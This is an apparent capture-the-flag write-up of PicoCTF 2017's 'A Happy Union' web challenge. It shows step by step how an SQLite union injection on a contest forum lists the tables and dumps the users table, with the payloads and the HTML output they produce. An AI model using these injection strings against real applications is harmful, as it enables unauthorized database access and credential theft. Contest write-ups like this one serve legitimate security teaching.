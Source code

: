 # PicoCTF_2017: A Happy Union

**Category:** Web Exploitation
**Points:** 110
**Description:**

>I really need access to [website](http://shell2017.picoctf.com:23598/), but I forgot my password and there is no reset. Can you help? I like lite sql :)

**Hint:**

>A SQL union allows a single query to select values from multiples tables.

## Write-up

I really need access to website, but I forgot my password and there is no reset. Can you help? I like lite sql :)

```html
w3ndige@W3ndige ~> curl http://shell2017.picoctf.com:41558/
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>Top Notch Forum</title>
    <link href="/static/css/bootstrap.min.css" rel="stylesheet">
    <link href="/static/css/style.css" rel="stylesheet">  
  </head>
    <body>
        <div class="container">
          <div class="row">
            <div class="text-center">
                <h1> Welcome to the Super Poster Forum! </h1>
            </div>
        </div>
        <div class="row">
            <br />
            <br />
            <br />
            <br />
        </div>
        <div class="row">
            <div class="col-md-12 text-center">
                <a href="/login" class="btn btn-primary btn-md" role="button">Login</a>
                <a href="/register" class="btn btn-primary btn-md" role="button">Register</a>
            </div>
        </div>
      </div>
        <script src="/static/js/bootstrap.min.js"></script>
        <script src="/static/js/jquery.min.js"></script>
        <script type="text/javascript" src="/static/js/client.js"></script>

    </body>
</html>⏎         
```

A happy union? It has to do something with  **union sql injection**. Let's firstly check, how bad can we go when registering a new user.

```html
username: ' OR 1 = 1
password: asd
```

Now, after logging in, we can clearly see the SQL query which is used to take out the data from the database. And yeah, our input isn't sanitized at all, so we're clear to create  **UNION**  injection.

```sql
select id, user, post from posts where user = '' OR 1 = 1';
```

Our first step would be creating a query that will tell us names of the tables in the database. Since we know it's  **sqlite**  it won't be that hard.

```sql
' union SELECT null, null, name FROM sqlite_master;--
```

We have to use 2  **null**  columns, since the base query is taking out content of 3 columns, and so we have to in the union query. Dashes in the end will comment out everything afer them, just in case.

```html
<div class="row">
     <div class="text-center">
         <h1> Welcome &#39; union SELECT null, null, name FROM sqlite_master;-- to the Super Poster Forum! </h1>
     </div>
 </div>

 <div class="row">
     <div class="text-center">
         <h3> The current posts are:</h3>
     </div>
 </div>
 <div class="row">
     <table class="table">
         <thead>
         <tr>
             <th>Post ID</th>
             <th>User</th>
             <th>Value</th>
         </tr>
         </thead>
         </tbody>
                 <tr><td>None </td><td> None</td> <td> posts</td></tr>

                 <tr><td>None </td><td> None</td> <td> sqlite_sequence</td></tr>

                 <tr><td>None </td><td> None</td> <td> users</td></tr>
         </tbody>
     </table>
 </div>
```

Great, we have  **users**  table, from which we can now try to get the flag. Here we go with the last query.

```sql
' union SELECT user, pass, null FROM users;--
```

User, pass column names? Let's check that out.

```html
<div class="row">
    <div class="text-center">
        <h1> Welcome &#39; union SELECT user, pass, null FROM users;-- to the Super Poster Forum! </h1>
    </div>
</div>
<div class="row">
    <div class="text-center">
        <h3> The current posts are:</h3>
    </div>
</div>
<div class="row">
    <table class="table">
        <thead>
        <tr>
            <th>Post ID</th>
            <th>User</th>
            <th>Value</th>
        </tr>
        </thead>
        </tbody>
                <tr><td>&#39; union SELECT user, pass, null FROM users;-- </td><td> asd</td> <td> None</td></tr>

                <tr><td>admin </td><td> flag{union?_why_not_onion_b6e6a3cd8e3f1fe5f6109d1618bddbd1}</td> <td> None</td></tr>
        </tbody>
    </table>
</div>
```

Great SQL Injection challenge!
<!--stackedit_data:
eyJoaXN0b3J5IjpbNjczNTI1MTMzXX0=
-->